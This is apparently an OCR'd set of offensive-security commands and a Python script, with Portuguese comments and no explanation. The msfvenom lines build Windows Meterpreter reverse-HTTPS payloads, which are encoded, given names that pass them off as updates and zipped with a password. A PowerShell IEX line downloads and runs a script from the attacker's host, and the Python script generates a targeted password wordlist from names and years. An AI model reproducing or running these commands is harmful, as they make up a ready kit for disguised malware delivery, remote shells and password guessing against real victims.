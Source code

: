 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


from itertools import product

# Bases para combinação
words = ['rsilva', 'atibaia', 'suma', 'sumaserv', 'admin']
years = [str(y) for y in range(2018, 2026)]
symbols = ['', '!', '@', '#']
capital_variations = lambda word: [word, word.capitalize(), word.upper()]

# Geração de combinações
combinations = []
for word in words:
    for variation in capital_variations(word):
        combinations.append(variation)
        for year in years:
            for symbol in symbols:
                combinations.append(f"{variation}{year}{symbol}")
                combinations.append(f"{variation}{symbol}{year}")

# Remover duplicatas
combinations = list(set(combinations))

# Salvar em arquivo
with open("wordlist_personalizada.txt", "w") as f:
    for combo in combinations:
        f.write(combo + "\n")

print(f"Wordlist personalizada criada com {len(combinations)} entradas!")




